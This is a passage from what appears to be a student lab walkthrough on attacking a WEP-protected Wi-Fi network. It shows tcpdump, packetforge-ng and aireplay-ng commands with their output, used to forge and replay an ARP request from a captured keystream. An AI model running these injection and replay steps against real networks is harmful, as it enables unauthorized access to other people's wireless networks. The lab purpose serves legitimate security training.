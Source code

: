 
Next, students will use `tcpdump` to identify the source and IP destination addresses using the packet capture saved with a unique name from `aireplay-ng`. Note that the IP addresses may not be obtained due to the nature of the attack.

Code: shell

```shell
tcpdump -s 0 -e -r replay_src-1126-071735.cap
```

```
wifi@WiFiIntro:~$ tcpdump -s 0 -e -r replay_src-1126-071735.cap

reading from file replay_src-1126-071735.cap, link-type IEEE802_11 (802.11), snapshot length 65535
07:17:35.759397 BSSID:d8:d6:3d:eb:29:d5 (oui Unknown) SA:32:74:0b:88:cc:93 (oui Unknown) DA:d8:d6:3d:eb:29:d5 (oui Unknown) Data IV:15d1f2 Pad 0 KeyID 0
```

Students will proceed to forge an ARP request with `packetforge-ng` using the previously captured keystream as a `.xor` file, specifying the access point's MAC address and the MAC address of the connected client while choosing the `255.255.255.255` IP addresses for both, designating them as broadcast addresses:

Code: shell

```shell
packetforge-ng -0 -a D8:D6:3D:EB:29:D5 -h 32:74:0B:88:CC:93 -k 255.255.255.255 -l 255.255.255.255 -y fragment-1126-071819.xor -w student-forgedarp.cap
```

```
wifi@WiFiIntro:~$ packetforge-ng -0 -a D8:D6:3D:EB:29:D5 -h 32:74:0B:88:CC:93 -k 255.255.255.255 -l 255.255.255.255 -y fragment-1126-071819.xor -w student-forgedarp.cap

Wrote packet to: student-forgedarp.cap
```

Next, students will use `aireplay-ng` in an interactive replay mode (`-2`) while specifying the forged packet and the MAC address of the connected client and use this packet:

Code: shell

```shell
sudo aireplay-ng -2 -r student-forgedarp.cap -h 32:74:0B:88:CC:93 wlan0mon
y
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -2 -r student-forgedarp.cap -h 32:74:0B:88:CC:93 wlan0mon
The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 32:74:0B:88:CC:93

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  D8:D6:3D:EB:29:D5
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  32:74:0B:88:CC:93

        0x0000:  0841 0201 d8d6 3deb 29d5 3274 0b88 cc93  .A....=.).2t....
        0x0010:  ffff ffff ffff 8001 936f 0800 b86c 1372  .........o...l.r
        0x0020:  f9e2 ee7c d399 03d1 8b95 a6fb 51a7 d675  ...|........Q..u
        0x0030:  7b92 c766 4b32 d46d 5ddf 367b ddb3 4344  {..fK2.m].6{..CD
        0x0040:  3acd 97fc                                :...

Use this packet ? y

Saving chosen packet in replay_src-1126-072532.cap
You should also start airodump-ng to capture replies.

Sent 80000 packets...(499 pps)
```